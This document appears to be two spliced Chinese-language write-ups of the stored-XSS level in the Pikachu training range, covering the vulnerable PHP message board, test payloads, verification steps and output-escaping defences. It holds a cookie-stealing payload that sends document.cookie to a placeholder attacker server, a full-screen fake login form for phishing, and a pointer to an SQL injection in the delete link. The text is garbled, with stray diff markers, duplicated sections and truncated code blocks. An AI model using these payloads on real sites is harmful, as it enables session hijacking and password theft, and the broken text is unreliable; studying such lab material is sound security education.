


# 存储型 XSS：我写了一次，所有人都中了
> 第一次提交 payload，页面毫无反应，我以为失败了。抓了服务器返回的 HTML 才发现——**代码早就存进数据库了**，只是我改的那个背景色被一层白色 div 盖住了。这一关让我真正理解了"存储型"三个字的分量。
## 一、环境与目标
| 项目 | 内容 |
| --- | --- |
| 靶场 | Pikachu |
| 运行环境 | phpStudy（Apache 2.4.39 + MySQL 5.7.26 + PHP 7.3.4 NTS） |
| 访问方式 | `http://pikachu/` |
| 关卡位置 | Cross-Site Scripting → 存储型xss |
| 页面地址 | `http://pikachu/vul/xss/xss_stored.php` |
| 工具 | 浏览器、Burp Suite（可选） |
目标：让页面执行自己写的 JavaScript，并且**让它留在服务器上**。
## 二、这关在考什么
### 2.1 页面

一个留言板：
- 上面一个 `textarea`，用来写留言
- 下面「留言列表」，显示所有留言
- 每条留言后面有个「删除」链接
和前一关最大的不同：**这里的留言会保存下来。**
### 2.2 源码
`vul/xss/xss_stored.php`：
```php
$link=connect();
$html='';
// ① 提交留言
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>数据库出现异常，提交失败！</p>";
    }
}
```
```php
// ② 显示留言列表
$query="select * from message";
$result=execute($link, $query);
while($data=mysqli_fetch_assoc($result)){
@@ -57,50 +58,44 @@
}
```
两个关键点：
1. **存的时候**：`escape()` 只做了 SQL 转义（防注入），**没有做 HTML 转义**；
2. **显示的时候**：`{$data['content']}` 被**原样**输出到 HTML 里。
所以 `<script>` 标签一路畅通：从输入框 → 数据库 → 页面 → 浏览器。
### 2.3 和反射型的本质区别
| | 反射型 | 存储型 |
| --- | --- | --- |
| payload 存在哪 | 不存 | **数据库** |
| 影响范围 | 只有点了链接的人 | **所有访问页面的人** |
| 攻击者需要做什么 | 骗人点链接/打开页面 | **什么都不用做** |
| 持续时间 | 一次 | 直到被删除 |
## 三、第一次尝试：失败（其实是误判）
### 3.1 我的 payload
```html
<script>document.body.style.background='red'</script>
```
想法很直接：把页面背景改成红色，变红就说明执行了。
### 3.2 现象

提交之后，留言列表里出现了一条留言，**但页面没有变红**。
页面上只看到：
```
留言列表：
删除
```
那条留言的内容是**空的**——因为 `<script>` 标签不显示文字。
### 3.3 排查：直接抓服务器返回的 HTML
我没有继续瞎猜，而是直接请求了一次页面，把 HTML 抓下来看：
```html
<p class='con'><script>document.body.style.background='red'</script></p><a href='xss_stored.php?id=56'>删除</a>
@@ -108,164 +103,219 @@
**`<script>` 原封不动地在里面。**
也就是说：
- payload 确实存进数据库了 ✅
- 页面确实原样输出了 ✅
- **但浏览器执行完之后，页面没变红** ❓
## 四、为什么没变红：CSS 遮挡
问题不在 payload，在**页面结构**。
Pikachu 用的是 Ace 模板，布局是这样的：
```
body                     ← 我改的是它的背景
└── .main-container        （白色背景）
    └── .main-content
        └── .page-content  ← 白色背景，铺满内容区
```
关键 CSS：
```css
.page-content {
    background-color: #FFF;
    position: relative;
    margin: 0;
    padding: 8px 20px 24px;
}
```
**`.page-content` 是白色、铺满、且盖在 body 上面。**
我把 body 改成红色，红色在它**后面**，被完全挡住了。
> **不是代码没执行，是执行了但看不见。**
### 4.1 这个坑教了我什么
「页面没变化」**不等于**「代码没执行」。
判断 XSS 成不成，最终要看的是：**HTML 里的标签是不是原样的**。
页面长什么样，只是它执行之后的副作用之一。
## 五、换一个 payload，成功
既然红色被白色 div 挡住了，那就直接改那个白色的 div：
```html
<script>document.querySelector('.page-content').style.background='red'</script>
```
- `document.querySelector('.page-content')` → 找到那个白色 div
- `.style.background='red'` → 改它的背景
提交后：

**整个内容区变红了。**
## 六、证明"真的存进去了"
变红只能说明「这次页面执行了」。要证明是**存储型**，得做两步。
### 6.1 刷新页面
按 `F5`。
**还是红的** → 说明 payload 不在浏览器里，而在数据库里，每次请求都会重新输出。
### 6.2 换一个全新的浏览器环境
按 `Ctrl + Shift + N` 开无痕窗口，访问：
```
http://pikachu/vul/xss/xss_stored.php
```
**不用登录、什么都不用做，页面直接变红。**
这一步才是存储型的核心证据：
> **任何访问这个页面的人，都会执行我写的代码。**
不需要骗他点链接，不需要他做任何操作。他自己走过来，就中招了。
## 七、真正的危害：偷 Cookie
改背景色只是"我能执行代码"的证明，不算真正的攻击。
真实的存储型 XSS，目标是**拿走访问者的身份**。
### 7.1 Cookie 里有什么
用一个更实在的 payload 看看：
```html
<script>document.querySelector('.xsss_title').innerText=document.cookie</script>
```
它把页面上「我是一个留言板：」那行字，替换成当前 Cookie：
```
PHPSESSID=9i7cuvo1obbo32ailq0761v65s; ant[uname]=admin; ant[pw]=10470c3b4b1fed12...
```
| 内容 | 说明 |
| --- | --- |
| `PHPSESSID` | 会话 ID，服务器靠它认人 |
| `ant[uname]` | 用户名 |
| `ant[pw]` | 密码的哈希（**不是明文**） |
**注意：密码本身不在 Cookie 里。**
### 7.2 那偷 Cookie 有什么用
**拿到 Cookie = 冒充你登录，不需要知道密码。**
就像拿到酒店房卡：
- 房卡不是钥匙，也不是你的身份证
- 但拿着它就能刷开你的房间
- 小偷根本不需要知道钥匙怎么配的
把 `PHPSESSID` 塞进自己的浏览器，服务器一看："是你啊，请进。"
### 7.3 真实的攻击代码
我上面那个是"显示在页面上"，方便观察。真实的攻击不会让你看见：
```html
<script>new Image().src='http://攻击者服务器/?c='+document.cookie</script>
```
原理：
- `new Image()` 创建一个看不见的图片对象
- `.src='http://...?c='+document.cookie` 会发起一次请求
- Cookie 作为参数，**被带到了攻击者的服务器**
**页面上什么都不显示，但你的登录凭证已经走了。**
### 7.4 Cookie 和密码是两回事
这次我搞混过，记一下：
| 攻击方式 | 得到什么 | 需要用户做什么 | 持续时间 |
| --- | --- | --- | --- |
| 偷 Cookie | **冒充登录** | 访问页面即可 | 到会话过期 |
| 钓鱼表单 | **明文密码** | 用户真的输入密码 | 到改密码 |
两者互补：Cookie 是短期的，密码是长期的。
### 7.5 钓鱼表单长什么样
用 XSS 插入一个覆盖全屏的假登录框：
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999">
  <h2>登录已过期，请重新登录</h2>
@@ -275,90 +325,81 @@
</div>
```
用户以为是真的登录页，输完密码点一下——**账号密码直接发走。**
这时候攻击者才真正"知道密码"。
## 八、存储型 vs 反射型：一张图说清

差别在于：
- **反射型**：payload 是"一次性"的，每次都要重新投递
- **存储型**：payload 是"常驻"的，写一次，一直生效
**这就是为什么存储型危害最大。**
## 九、我学到了什么
### 9.1 "没反应"和"没成功"是两件事
这一关我差点误判。payload 明明执行了，只是效果被 CSS 遮住了。
**判断标准应该是「HTML 里的标签原不原样」，而不是「页面变没变」。**
### 9.2 存储型的杀伤力在于"零投递"
反射型要骗人点链接，多少有门槛。
存储型不需要——payload 躺在数据库里，等着每个人自己走进来。
**这是唯一一种"不需要接触受害者"就能生效的 XSS。**
### 9.3 Cookie 不是密码本
Cookie 里是**会话凭证**，不是密码。
偷 Cookie 的价值在于"冒充"，不在于"知道密码"。
### 9.4 前端效果只是表象
改背景色、弹窗、换图片——这些都是"我执行成功了"的证明。
真正的攻击代码是**无声的**：
```html
<script>new Image().src='http://攻击者/?c='+document.cookie</script>
```
页面上看不出任何异常，但东西已经走了。
### 9.5 一个额外发现：删除功能有 SQL 注入
源码里作者自己留了注释：
```php
//彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
$query="delete from message where id={$_GET['id']}";
```
那个「删除」链接 `xss_stored.php?id=1`，其实还有个 SQL 注入。等学到 SQL 注入模块可以回来看。
## 十、防御怎么写
```php
// 正确：输出时转义
while($data=mysqli_fetch_assoc($result)){
    $content = htmlspecialchars($data['content'], ENT_QUOTES, 'UTF-8');
    echo "<p class='con'>{$content}</p>";
    echo "<a href='xss_stored.php?id=".intval($data['id'])."'>删除</a>";
}
```
三层配合：
| 层 | 做法 | 作用 |
| --- | --- | --- |
@@ -366,17 +407,62 @@
| Cookie 保护 | `HttpOnly` | 让 JS 读不到 Cookie |
| CSP | `Content-Security-Policy` | 禁止内联脚本 |
存储型还多一条：
| 措施 | 说明 |
| --- | --- |
| **存储前过滤 + 输出时转义** | 存进去的数据可能是恶意内容，输出时必须处理 |
| **富文本白名单** | 如果确实要允许 HTML，只放行安全的标签和属性 |
**注意：只在"输入时"过滤是不够的**——因为数据库里可能已经有历史脏数据，输出时必须再转义一次。
## 十一、下一关
- [x] 反射型xss(get)
- [x] 反射型xss(post)
- [x] 存储型xss
@@ -386,6 +472,8 @@
DOM 型的特点：**服务器完全不参与**，是前端 JS 自己把地址栏的内容拼进了页面。
## 参考
- [Pikachu 源码](https://github.com/zhuifengshaonianhanlu/pikachu)
@@ -397,6 +485,6 @@
**一句话总结**：
> 反射型要骗你点一下，存储型**等着你自己走进来**。
>
> 而"页面没变红"不代表没成功——**代码早就在数据库里躺着了。**
@@ -1,55 +1,56 @@
# 存储型 XSS 完全笔记：实战、做题方法，以及它和钓鱼的本质区别
> 这篇把三件事放在一起：**这一关怎么打**、**这类题怎么做**、**它和"钓鱼"到底差在哪**。
>
> 先把结论放这儿：
>
> **XSS 偷的是 Cookie，结果是"冒充你"；钓鱼骗的是密码，结果是"拿到你的钥匙"。**
---
## 一、这关是什么
一个留言板。
```
┌────────────────────────────┐
│ 我是一个留言板：            │
│ ┌────────────────────────┐ │
│ │ (文本域)                │ │
│ └────────────────────────┘ │
│ [submit]                   │
│                            │
│ 留言列表：                  │
│  留言内容……        删除     │
└────────────────────────────┘
```
和前面两关最大的不同：
| | 反射型 | 存储型 |
| --- | --- | --- |
| 提交后去哪 | 直接拼回页面，看完就没 | **存进数据库** |
| 谁能看到 | 只有提交的人 | **所有访问页面的人** |
## 二、源码：漏洞在哪
### 2.1 存
```php
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
}
```
`escape()` 做的是 **SQL 转义**（防注入），**不是 HTML 转义**。
所以 `<script>` 原样存进了数据库。
### 2.2 取
```php
$query="select * from message";
$result=execute($link, $query);
while($data=mysqli_fetch_assoc($result)){
@@ -57,50 +58,44 @@
}
```
`{$data['content']}` 被**原样**输出到 HTML 里。
### 2.3 完整链路

**一次提交，永久生效。**
## 三、完整实战
### 3.1 第一次尝试：用 body 背景变红
提交：
```html
<script>document.body.style.background='red'</script>
```
结果：**页面没有任何变化。**
留言列表里只多了一条：
```
留言列表：
删除
```
留言内容那行是**空的**——因为 `<script>` 标签不显示文字。
### 3.2 别急着下结论，先看服务器返回了什么
我直接请求了一次页面，把 HTML 抓下来：
```html
<p class='con'><script>document.body.style.background='red'</script></p><a href='xss_stored.php?id=56'>删除</a>
@@ -108,164 +103,219 @@
**`<script>` 原封不动地在里面。**
这就证明了三件事：
1. payload 存进数据库了
2. 页面原样输出了
3. 浏览器确实拿到了这段代码
那为什么不红？
### 3.3 真正原因：CSS 把红色挡住了
Pikachu 用的 Ace 模板，布局是这样的：
```
body                     ← 我改的是它
└── .main-container        （白色）
    └── .main-content
        └── .page-content  ← 白色，铺满内容区
```
关键 CSS：
```css
.page-content {
    background-color: #FFF;    /* 白色 */
    position: relative;        /* 盖在上面 */
}
```
**`.page-content` 是白色、铺满、且在 body 上面。**
我把 body 改成红色，红色在它后面，完全被遮住。
> **不是没执行，是执行了看不见。**
### 3.4 换一个 payload：直接改那个白色 div
```html
<script>document.querySelector('.page-content').style.background='red'</script>
```
- `document.querySelector('.page-content')` → 找到那个白色 div
- `.style.background='red'` → 改它的背景
提交后，**整个内容区变红。**
### 3.5 验证一：刷新还在吗
按 `F5`。
**还是红的** → 说明 payload 不在浏览器里，而在数据库里。
### 3.6 验证二：别人也会中招吗
按 `Ctrl + Shift + N` 开无痕窗口，访问：
```
http://pikachu/vul/xss/xss_stored.php
```
**不用登录、什么都不做，页面直接变红。**
这才是存储型的核心：
> **不需要骗人点链接，谁走过来谁中招。**
---
## 四、存储型 XSS 的做题方法
这一类题（留言板、评论、昵称、个人签名、文件说明……）都有共同套路。
### 步骤 1：找输入点
凡是**提交后会被展示**的地方，都是候选：
| 位置 | 说明 |
| --- | --- |
| 留言板 / 评论区 | 最经典 |
| 用户名 / 昵称 | 注册时就写入 |
| 个人签名 / 简介 | 个人主页展示 |
| 文件描述 / 标签 | 上传后展示 |
| 搜索历史 | 有些会保存 |
### 步骤 2：先测探针，别急着上 payload
提交：
```html
<b>abc</b>
```
看页面怎么显示：
| 显示 | 含义 |
| --- | --- |
| **abc**（加粗） | 尖括号活着 ✅ |
| `<b>abc</b>`（连尖括号一起） | 被转义 ❌ |
**为什么用 `<b>`？** 它加粗后一眼能看出来，没有副作用，而且很少有网站会过滤它。
### 步骤 3：验证"持久性"
按 `F5` 刷新。
| 结果 | 含义 |
| --- | --- |
| **还在** | 存进数据库了 → **存储型** |
| 没了 | 只是反射，看完就消失 |
这一步是判断"存储型还是反射型"的唯一标准。
### 步骤 4：验证"影响范围"
| 方法 | 说明 |
| --- | --- |
| 无痕窗口 | 最方便，`Ctrl + Shift + N` |
| 换一个浏览器 | 更彻底 |
| 换一个账号 | 看是否跨账号 |
如果都中招 → **所有人都会执行你的代码**。
### 步骤 5：构造真实利用
到这一步才是真正的攻击：
| 目标 | payload |
| --- | --- |
| 偷 Cookie | `<script>new Image().src='http://你的服务器/?c='+document.cookie</script>` |
| 钓鱼密码 | 插入一个覆盖全屏的假登录框 |
| 打后台 | 管理员查看留言时自动执行，借他的权限操作 |
### 存储型题目的三个常见坑
| 坑 | 说明 |
| --- | --- |
| **页面没变化** | 可能被 CSS 遮住了，或者 payload 的效果本身不可见 |
| **有富文本过滤** | 先试哪些标签能过（``、`<svg>` 常见） |
| **延迟触发** | 有些留言需要审核后才展示 |
---
## 五、三种 XSS 的对比
| | 反射型 | 存储型 | DOM 型 |
| --- | --- | --- | --- |
| payload 存哪 | 不存 | **数据库** | 不存 |
| 谁解析 | 服务器 | 服务器 | **浏览器端 JS** |
| 影响范围 | 点链接的人 | **所有人** | 点链接的人 |
| 攻击者要做什么 | 骗点击 | **什么都不用做** | 骗点击 |
| 危害 | 中 | **高** | 中 |
**存储型危害最高的原因只有一条：它不需要"投递"这一步。**
反射型要骗你点，存储型等着你自己走进来。
---
## 六、偷 Cookie 和钓鱼：本质区别
这是最容易混的两个概念。
### 6.1 先看 Cookie 里有什么
用这个 payload 把 Cookie 显示出来：
```html
<script>document.querySelector('.xsss_title').innerText=document.cookie</script>
```
你会看到：
```
PHPSESSID=9i7cuvo1obbo32ailq0761v65s; ant[uname]=admin; ant[pw]=10470c3b4b1fed12...
```
| 内容 | 是什么 |
| --- | --- |
| `PHPSESSID` | 会话 ID，服务器靠它认人 |
| `ant[uname]` | 用户名 |
| `ant[pw]` | 密码的哈希，**不是明文** |
**注意：密码本身不在 Cookie 里。**
### 6.2 XSS 偷 Cookie 做的是什么
**拿到 Cookie = 冒充你登录，不需要知道密码。**
打个比方：
> Cookie 就像**酒店房卡**。
>
> - 房卡不是钥匙，也不是你的身份证
> - 但拿着它就能刷开你的房间
> - 小偷不需要知道钥匙怎么配的
把 `PHPSESSID` 塞进自己的浏览器，服务器一看："是你啊，请进。" —— 它不会再问密码。
这在安全领域有个专门的词：**会话劫持（Session Hijacking）**。
### 6.3 钓鱼做的是什么
钓鱼不碰技术漏洞，它骗的是**人**。
典型场景：
> "您的登录已过期，请重新登录。"
>
> 你看到一个和真网站一模一样的登录框，老老实实输入了账号密码。
**攻击者拿到的是明文密码。**
XSS 也能做这件事——在页面里插入一个假登录框：
```html
<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:#fff;z-index:9999">
  <h2>登录已过期，请重新登录</h2>
@@ -275,90 +325,81 @@
</div>
```
用户以为是真的，输完点一下——**账号密码直接发走。**
### 6.4 一张表说清区别
| 维度 | XSS 偷 Cookie | 钓鱼 |
| --- | --- | --- |
| **攻击目标** | 会话凭证 | 明文密码 |
| **技术含量** | 需要漏洞 | 不需要漏洞，骗人就行 |
| **需要用户做什么** | 打开页面即可 | **必须真的输入密码** |
| **拿到后能做什么** | 冒充登录 | 长期控制账号 |
| **持续时间** | 到会话过期 | 到用户改密码 |
| **能不能被 2FA 挡** | 部分能 | 通常能 |
| **防御重点** | HttpOnly、CSP、输出转义 | 用户教育、域名核对、2FA |
**一句话区分**：
> **偷 Cookie = 不用密码也能进。**
> **钓鱼 = 让你自己把密码交出来。**
### 6.5 两者其实是互补的
| 场景 | 用哪个 |
| --- | --- |
| 只想快速进后台看一眼 | 偷 Cookie |
| 想长期控制账号 | 钓鱼拿密码 |
| 用户开了二次验证 | 偷 Cookie 有时能绕过 |
| 会话短、频繁失效 | 钓鱼更划算 |
真实攻击里，两者经常一起用：
1. 先用 XSS 偷 Cookie，摸清系统结构
2. 再插一个钓鱼框，拿到长期密码
3. 或者用 XSS 直接以管理员身份操作，连密码都不用
### 6.6 一个常见误解
> "偷到 Cookie 就知道密码了"
**错。**
Cookie 里只有会话 ID 和密码的哈希。哈希是单向的，不能还原成密码（除非密码本身很弱，能被撞库）。
**所以"偷 Cookie"和"知道密码"是两件完全不同的事。**
---
## 七、危害有多大
| 场景 | 后果 |
| --- | --- |
| 留言板被植入 | 每个访客的 Cookie 被发走 |
| 管理员看到留言 | 管理员会话被劫持，后台失守 |
| 内容自动复制 | 变成**蠕虫**，指数级扩散 |
现实案例：
- **2005 年 MySpace Samy 蠕虫**：20 小时感染超过 100 万用户主页
- **2011 年新浪微博蠕虫**：用户点开微博后自动转发、自动关注
两次用的都是最基础的 `<script>` 注入。
---
## 八、防御怎么写
### 8.1 输出转义（核心）
```php
while($data=mysqli_fetch_assoc($result)){
    $content = htmlspecialchars($data['content'], ENT_QUOTES, 'UTF-8');
    echo "<p class='con'>{$content}</p>";
}
```
### 8.2 三层配合
| 层 | 做法 | 作用 |
| --- | --- | --- |
@@ -366,17 +407,62 @@
| Cookie 保护 | `HttpOnly` | 让 JS 读不到 Cookie |
| CSP | `Content-Security-Policy` | 禁止内联脚本 |
### 8.3 存储型多一条
| 措施 | 说明 |
| --- | --- |
| 输出时必须转义 | 数据库里可能已有历史脏数据，不能只靠输入时过滤 |
| 富文本白名单 | 真要允许 HTML，只放行安全标签和属性 |
---
## 九、我学到了什么
### 9.1 "没反应"和"没成功"是两件事
这次差点误判。payload 明明执行了，只是效果被 CSS 遮住。
**判断标准应该是「HTML 里的标签原不原样」，不是「页面变没变」。**
### 9.2 存储型的杀伤力在于"零投递"
反射型要骗人点，存储型不用。
**它是唯一一种"不需要接触受害者"就能生效的 XSS。**
### 9.3 Cookie 不是密码本
Cookie 里是会话凭证，不是密码。
偷 Cookie 的价值在于"冒充"，不在于"知道密码"。
### 9.4 真正的攻击代码是无声的
改颜色、弹窗、换图——这些都是"我执行成功了"的证明。
真实的攻击代码长这样：
```html
<script>new Image().src='http://攻击者/?c='+document.cookie</script>
```
**页面上什么都看不到，但东西已经走了。**
### 9.5 一个额外发现
源码里作者自己留了注释：
```php
//彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
$query="delete from message where id={$_GET['id']}";
```
那个「删除」链接 `xss_stored.php?id=1`，其实还有个 SQL 注入。等学到 SQL 注入模块可以回来看。
---
## 十、下一步
- [x] 反射型xss(get)
- [x] 反射型xss(post)
- [x] 存储型xss
@@ -386,6 +472,8 @@
DOM 型的特点：**服务器完全不参与**，是前端 JS 自己把地址栏的内容拼进了页面。
---
## 参考
- [Pikachu 源码](https://github.com/zhuifengshaonianhanlu/pikachu)
@@ -397,6 +485,6 @@
**一句话总结**：
> **存储型：写一次，所有人中招。**
> **偷 Cookie：不用密码也能进。**
> **钓鱼：让你自己把密码交出来。**
